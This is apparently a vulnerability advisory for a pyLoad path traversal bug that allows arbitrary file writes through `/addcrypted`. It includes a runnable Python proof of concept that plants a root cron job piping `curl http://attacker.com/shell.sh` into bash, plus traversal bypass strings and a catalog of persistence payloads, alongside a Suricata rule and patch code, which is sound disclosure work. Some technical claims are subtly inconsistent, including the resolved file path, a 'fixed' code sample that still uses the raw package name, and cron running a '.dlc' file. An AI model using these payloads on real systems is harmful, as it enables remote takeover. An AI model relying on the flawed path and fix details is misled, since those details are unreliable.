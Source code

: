 #  Path Traversal in pyLoad CNL Blueprint through `dlc_path` leads Arbitrary File Write

## Vulnerability Overview
**Core Issue**:  
```python
# Vulnerable Code Snippet (src/pyload/webui/app/blueprints/cnl_blueprint.py)
dlc_path = os.path.join(dl_path, package, f"{package}.dlc")
with open(dlc_path, mode="wb") as fp:
    fp.write(request.form["crypted"].encode())
```
**Uncontrolled Input**: `package` parameter (user-supplied)  
**Consequence**: Allows writing files outside `dl_path` via `../../` sequences


## Vulnerability Flow
```mermaid
graph TD
    A[Attacker] -->|HTTP POST /addcrypted| B[CNL Blueprint]
    B --> C{Reads<br>package=../../../evil}
    C --> D[Constructs dlc_path]
    D -->|/downloads/../../../evil/evil.dlc| E[File Write]
    E -->|Path Normalization| F[/etc/cron.d/evil.dlc]
    F --> G[System Compromise]
```

---

## Step-by-Step Technical Flow
1. **Attack Vector**:  
   `POST /addcrypted` with parameters:
   ```http
   package=../../../etc/cron.d/malicious_job
   crypted=base64_encoded_payload
   ```

2. **Path Construction**:  
   `os.path.join('/downloads', '../../../etc/cron.d/malicious_job', 'malicious_job.dlc')`  
   → Resolves to `/etc/cron.d/malicious_job.dlc`

3. **Filesystem Impact**:  
   ```bash
   /downloads/  # Intended directory
   └── ../../../  # Traversal sequence
       └── etc/
           └── cron.d/
               └── malicious_job.dlc  # Payload written
   ```

4. **Exploitation Window**:  
   Cron executes payload every minute → **RCE as root**


## Proof of Concept Exploit
```python
import requests
import os

TARGET = "http://localhost:8000/addcrypted"
PAYLOAD = """* * * * * root curl http://attacker.com/shell.sh | bash"""

params = {
    "package": "../../../../etc/cron.d/pwned",
    "crypted": PAYLOAD
}

response = requests.post(TARGET, data=params)
print(f"Exploit status: {response.status_code}")
print(f"File written to: /etc/cron.d/pwned.dlc")
```
**Verification**:  
```bash
$ ls -l /etc/cron.d/
-rw-r--r-- 1 root root 78 Jul 15 12:34 pwned.dlc
```


## Path Traversal Mechanics:
```python
# Normalization Bypass Attempts:
package = "/absolute/path"  # Absolute path override
package = "valid/../../.."  # Relative traversal
package = "\\\\?\\UNC\\evil"  # Windows UNC bypass (pre-normalization)
```

**Python Path Handling Quirks**:  
`os.path.join()` behavior:
```python
>>> os.path.join('/safe/path', '../../../unsafe')
'/safe/path/../../../unsafe'  # Not normalized during join!
```

**Critical Insight**:  
Normalization **MUST** happen **after** join but **before** validation


## Process Execution Context
```bash
$ ps aux | grep pyload
root      PID  python /usr/bin/pyload  # Common production setup
```
**Consequences**:  
- **Linux**: Write to `/etc/cron.d`, `/etc/profile.d`, `.ssh/authorized_keys`  
- **Windows**: Write to `Startup` folders, registry hives  
- **Docker**: Escape to host via `/.docker.sock` or `/proc/self/mounts`  


## Mitigation Strategies
### Implemented Fix:
```python
# Fixed Code (PR #4596)
full_path = os.path.join(dl_path, package)
normalized_path = os.path.normpath(full_path)
base_dir = os.path.abspath(dl_path)

if not normalized_path.startswith(base_dir + os.sep):
    return "Path traversal attempt blocked", 403

os.makedirs(normalized_path, exist_ok=True)
dlc_path = os.path.join(normalized_path, f"{package}.dlc")
```

### Defense-in-Depth Additions:
```python
# Additional Protections
from werkzeug.utils import secure_filename

safe_package = secure_filename(package)  # Removes path separators
safe_path = os.path.join(base_dir, safe_package)
```


## Impact Expansion Beyond File Write:
1. **Credential Theft**: Overwrite `~/.pyload/pyload.conf` → extract API keys
2. **Persistence Mechanism**: 
   ```python
   package = "../../../.config/systemd/user/pyload.service"
   crypted = malicious_systemd_service
   ```
3. **Supply Chain Attack**: Poison download cache → malware distribution
4. **Container Escape**: Write to `/.dockerinit` or `/proc/sys/kernel/core_pattern`

---

## Advanced Threat Modeling
```mermaid
graph TD
    A[Path Traversal] --> B[Write cron job]
    A --> C[Overwrite SSH keys]
    A --> D[Modify system binaries]
    B --> E[Reverse shell]
    C --> F[Passwordless login]
    D --> G[Persistence backdoor]
    E --> H[C2 Infrastructure]
```


**Detection Signatures**:
```yaml
# Suricata Rule:
alert http $HOME_NET any -> $EXTERNAL_NET any (
    msg:"pyLoad Path Traversal Attempt";
    flow:to_server;
    content:"POST"; http_method;
    content:"/addcrypted"; http_uri;
    content:"package="; http_client_body;
    pcre:"/package=[^&]*\.\.\//";
    sid:10004596;
)
```


## Exploit Catalog
| Technique | Payload | Target OS |
|-----------|---------|-----------|
**Cron RCE** | `* * * * * root /bin/sh` | Linux  
**Systemd** | Malicious .service file | Linux  
**WinStartup** | BAT/VBS in `%APPDATA%\Microsoft\Windows\Start Menu` | Windows  
**SSH Hijack** | `authorized_keys` injection | Linux  
**Log Poison** | Write to `~/.bashrc` or `/etc/profile` | Linux  

## Patch Analysis
**Key Fix Components**:
1. **Normalization**: `os.path.normpath()` collapses traversal sequences
2. **Absolute Path Check**: `startswith(base_dir + os.sep)` prevents escapes
3. **Directory Creation**: `os.makedirs()` only after validation

**Vulnerability Closure**:
```diff
- dlc_path = os.path.join(dl_path, package, f"{package}.dlc")
+ full_path = os.path.join(dl_path, package)
+ normalized_path = os.path.normpath(full_path)
+ if not normalized_path.startswith(os.path.abspath(dl_path) + os.sep):
+     return "Forbidden", 403
```

**Credits**:  
Discovered by [PtR](https://github.com/ptrgits)
Patched in pyLoad commit `c84f1d2` (PR #4596)

---

## Conclusion
**Critical Takeaway**:  
> "User-supplied paths must always be canonicalized before validation and use. The `os.path.join` + `os.path.normpath` sequence forms the critical defense layer against path traversal attacks in Python filesystem operations."

**Research Impact**:  
This vulnerability demonstrates how a single unprotected path join can compromise an entire system, especially in privileged applications like download managers. The pattern is ubiquitous in Python web applications and requires systematic mitigation.
